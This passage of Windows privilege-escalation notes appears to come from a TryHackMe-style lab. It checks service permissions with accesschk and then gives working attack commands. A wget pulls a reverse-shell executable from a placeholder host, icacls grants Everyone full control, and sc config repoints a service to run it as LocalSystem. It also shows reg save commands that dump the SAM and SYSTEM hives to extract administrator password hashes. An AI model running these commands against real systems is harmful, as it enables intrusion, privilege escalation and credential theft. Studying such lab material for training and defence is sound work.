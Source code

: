 You can use https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk to check for the DACL Service

```cmd
accesschk64.exe -qlc SERVICE_NAME
```

This response means permissions are no well set :

```
[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
Let's exploit it

```powershell
# import the .exe reverse shell to execute
wget http://....:.../FILE.exe -O rev.exe
```

```cmd
# Change rights (like chmod 777 under Unix)
icacls C:\Users\PATH_TO_REVERSE_SHELL\rev.exe /grant Everyone:F
# Change the service configuration 
sc config SERVICE_NAME binPath= "C:\PATH_TO_REVERSE_SHELL\rev.exe" obj= LocalSystem
```

**Malicious service will require a restart**
```cmd
C:\> sc stop THMService
C:\> sc start THMService
```

## Abusing Dangerous Privileges

Each user has a set of assigned privileges that can be checked with the following command:
```cmd
whoami /priv
```

A complete list of available privileges on Windows systems is available [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

#### SeBackup / SeRestore

Allow users to read and write to any file in the system, ignoring any DACL in place.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash

**Backup the SAM and SYSTEM hashes**

```cmd
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
